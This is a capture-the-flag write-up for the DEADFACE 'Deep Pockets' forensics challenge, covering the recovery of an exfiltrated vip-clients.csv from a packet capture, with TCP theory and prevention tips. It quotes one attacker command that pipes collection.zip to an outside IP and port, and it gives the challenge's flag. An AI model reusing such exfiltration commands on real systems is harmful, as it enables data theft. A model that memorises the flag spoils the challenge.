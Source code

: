 # Deep Pockets
## Challenge 
- Forensics/ Traffic Analysis
- DEADFACE
- Medium

### Description
>Note: Use the PCAP from Big Fish.
>
>Garry Sartoris had a CSV file of VIP clients on his machine that DEADFACE exfiltrated. TGRI wants us to confirm William Harrington's account number to determine if his information was compromised. Submit William Harrington's account number as the flag.
>
>Submit the flag as flag{AAAA##############}.

### Objective
Find the VIP file and find the account number of William Harrington.

## Analysis
First we need to find a packet that has a `.csv` file, as said in the description.
![image](https://github.com/user-attachments/assets/61fbaf70-9896-4c3f-8285-fa5360498367)
We get this 5 tcp packets. If we click on follow tcp stream which allows to analyze the entire conversation of a TCP connection.
![image](https://github.com/user-attachments/assets/d2ab50e2-7e8c-47fe-a5a0-32bda429d4e7)
![image](https://github.com/user-attachments/assets/5ef65663-263d-413e-8ef1-4ab9aff4737b)
![image](https://github.com/user-attachments/assets/70ed8199-61d6-4ce0-bef8-ae9c8588834c)
In this TCP conversation we see that the file `vip-clients.csv` was moved to a `.zip` file `collections.zip`.
Reading the consersation we found:
```
C:\Users\garry>
.\945f 45.55.201.188 7523 < collection.zip
```
So we know in wich port was the `collection.zip` send.

## Theory
You can find the file information in TCP (Transmission Control Protocol) because TCP is a transmission protocol that sends data in packets, and that data can include any type of file or information that is being transferred between two devices on a network.

TCP divides information into packets, which are then sent from the sender to the recipient. Each packet contains a piece of the file's data.

In a file transfer, all packets belonging to that transfer travel on a specific connection between the IP and port of the sender and the receiver.

When you send a file over TCP, the contents of the file are sent in either binary or text format, depending on the file type.

TCP ensures complete and ordered delivery of the data, meaning that each piece of the file will be sent and reassembled at the destination.

## How to avoid
To avoid exfiltration of sensitive data:
- Network Traffic Monitoring and Intrusion Detection:
  - Set up alerts for sensitive file access and transmission patterns, particularly when data is transmitted to untrusted or unusual destinations. 
- Data Loss Prevention (DLP)
  - DLP policies can be set to restrict the transmission of specific file types or patterns (e.g., .csv files containing sensitive data).
- Access Controls and Authentication
- File Encryption

## Solution
1. Find packets with the file: `frame conatins ".csv"`
![image](https://github.com/user-attachments/assets/61fbaf70-9896-4c3f-8285-fa5360498367)
2. Click on one packet and the follor TCP stream
3. See that de file `vip-clients.csv` was compresed in `colletion.zip`
![image](https://github.com/user-attachments/assets/5ef65663-263d-413e-8ef1-4ab9aff4737b)
4. Here you can see the collection.zip got sent over on port 7523
![image](https://github.com/user-attachments/assets/70ed8199-61d6-4ce0-bef8-ae9c8588834c)
5. Filter the `pcap` with `tcp.port == 7523`, so we get only specific packets
![image](https://github.com/user-attachments/assets/c3b28dbe-054d-4a24-ad89-c1f5a5dc5653)
6. Click on one packet and the follor TCP stream
7. Change it to raw and then save as
![image](https://github.com/user-attachments/assets/1418000a-c287-4a65-bdd3-bc2008c93e38)
8. Save the file as `[name].raw`
9. unzip the file
10. Open `vip-clients.csv`
  ![image](https://github.com/user-attachments/assets/9bf72b76-9282-41eb-9215-6d08b83e0cc5)

`flag{RRNQ85158591854615}`
